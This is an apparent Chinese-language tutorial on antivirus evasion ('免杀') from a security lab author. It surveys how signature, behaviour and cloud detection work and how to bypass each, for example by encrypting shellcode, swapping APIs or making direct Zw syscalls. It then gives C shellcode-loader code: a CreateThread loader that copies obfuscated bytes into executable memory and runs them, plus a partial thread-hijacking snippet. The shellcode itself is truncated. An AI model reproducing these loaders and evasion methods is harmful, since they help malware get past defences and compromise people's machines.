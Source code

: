 

# 免杀技术大杂烩---乱拳也打不死老师傅
Author: Boi@Linton Lab 360

---

目前的反病毒安全软件，常见有三种，一种基于特征，一种基于行为，一种基于云查杀。云查杀的特点基本也可以概括为特征查杀。

对特征来讲，大多数杀毒软件会定义一个阈值，当文件内部的特征数量达到一定程度就会触发报警，也不排除杀软会针对某个EXP会限制特定的入口函数来查杀。当然还有通过md5，sha1等hash函数来识别恶意软件，这也是最简单粗暴，最容易绕过的。 针对特征的免杀较为好做，可以使用加壳改壳、添加/替换资源、修改已知特征码/会增加查杀概率的单词（比如某函数名为ExecutePayloadshellcode）、加密Shellcode等等。

CreateThread
CreateThreadEx

xxx -> ntdll.dll -> win32API 

对行为来讲，很多个API可能会触发杀软的监控，比如注册表操作、添加启动项、添加服务、添加用户、注入、劫持、创建进程、加载DLL等等。 针对行为的免杀，我们可以使用白名单、替换API、替换操作方式（如使用WMI/COM的方法操作文件）等等方法实现绕过。除常规的替换、使用未导出的API等姿势外，我们还可以使用通过直接系统调用的方式实现，比如使用内核层面Zw系列的API，绕过杀软对应用层的监控（如下图所示，使用ZwAllocateVirtualMemory函数替代VirtualAlloc）。

## Loader tech
### CreateThread
```c
int main()
{
	LPVOID lpvAddr = VirtualAlloc(0, 1024, MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	unsigned char data[] = "\x00\x48\x83";
	char a1[] = "\xfc\xe4\xc8";

	SIZE_T Size = sizeof(data);
	
	//decrypt
	for (int i = 0; i < sizeof(a1); i++) {
		memcpy(&data[i * 3], &a1[i], 1);
	}

	RtlMoveMemory(lpvAddr, data, sizeof(data));
	DWORD pa = 0x01;
	VirtualProtect(lpvAddr, sizeof(data), 0x10, &pa);

	if (lpvAddr != NULL) {
		HANDLE s;
		s = CreateThread(0, 0, (LPTHREAD_START_ROUTINE)lpvAddr, data, 0, 0);
		WaitForSingleObject(s, INFINITE);
	}
}
```

### ThreadHijacking
VirtualAllocEx(CreateNewProcess)
```c
char a1[] = "\xfc\xe4\xc8\x00\x41\x51...";

SIZE_T size = 0;
STARTUPINFOEXA si;
PROCESS_INFORMATION pi;

ZeroMemory(&si, sizeof(si));
si.StartupInfo.cb = sizeof(STARTUPINFOEXA);
si.StartupInfo.dwFlags = STARTF_USESHOWWINDOW;

ZeroMemory(&si, sizeof(si));
```

[go/shellcode_inject/virtual>>]: generate
